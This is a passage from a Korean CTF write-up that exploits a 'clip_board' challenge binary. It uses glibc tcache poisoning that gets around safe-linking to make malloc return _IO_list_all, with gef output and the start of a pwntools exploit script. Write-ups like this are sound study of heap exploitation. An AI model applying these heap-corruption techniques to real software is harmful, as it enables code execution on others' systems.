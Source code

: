 아무튼 실제 xor 연산이 되는 `tcache` 값은 heap base 주소를 12bit right shift한 `0x555555559`으로, `next`가 null이어야 하는 `0x555555559470` chunk를 보면 알 수 있다.

따라서 `_IO_list_all`의 주소인 `0x7ffff7fa5680`에 `0x555555559`를 xor한 결과를 `0x555555559440` chunk의 `next` 위치에 쓰면 다음과 같이 tcache bin이 구성된다.
``` bash
─────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x555555559440, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
                                      ←  Chunk(addr=0x7ffff7fa5680, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x7ffff7fa5680]
```
`_IO_list_all`의 주소 `0x7ffff7fa5680` 8바이트 앞에 위치한 `0`이 `size`로 인식되어 corrupted chunk로 출력되지만 다행히 `malloc()` 시 `size` 검증을 하지 않아 `0x7ffff7fa5680`를 반환받는데에 성공했다.
``` python
    # reallocate fake 0x100 chunk and overwrite fd of XXXXXXXXX440
    # now XXXXXXXXX440 -> IO_list_all
    io_list_all = libc + 0x21b680
    payload = b"H" * 0x38
    payload += p64(0x31)
    payload += p64(io_list_all ^ (heap >> 12))
    add_clipboard(s, 3, 0xf0, payload)

    # allocating 5 returns address of IO_list_all
    add_clipboard(s, 4, 0x20, b"I" * 0x20)
    add_clipboard(s, 5, 0x20, p64(heap + 0x770))
```
이렇게 payload를 실행하면 목적했던 `_IO_list_all`에 생성한 `new_fd`의 주소가 담기게 된다.
``` bash
gef➤  x/gx 0x7ffff7fa5680
0x7ffff7fa5680 <_IO_list_all>:  0x0000555555559770
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "clip_board"
LIBRARY = "libc.so.6"
CONTAINER = "69049f0398fe"
code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x16FD
}

gs = f'''
gef config gef.bruteforce_main_arena True
b *0x7ffff7e1e8e0
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def add_clipboard(s, index, size, contents, fin=0):
    s.sendline(b"1")
    s.recvuntil(b"> ")
    s.sendline(str(index).encode())
    s.recvuntil(b"> ")
    s.sendline(str(size).encode())
    s.recvuntil(b"> ")
    s.send(contents)
    if fin:
        return
```
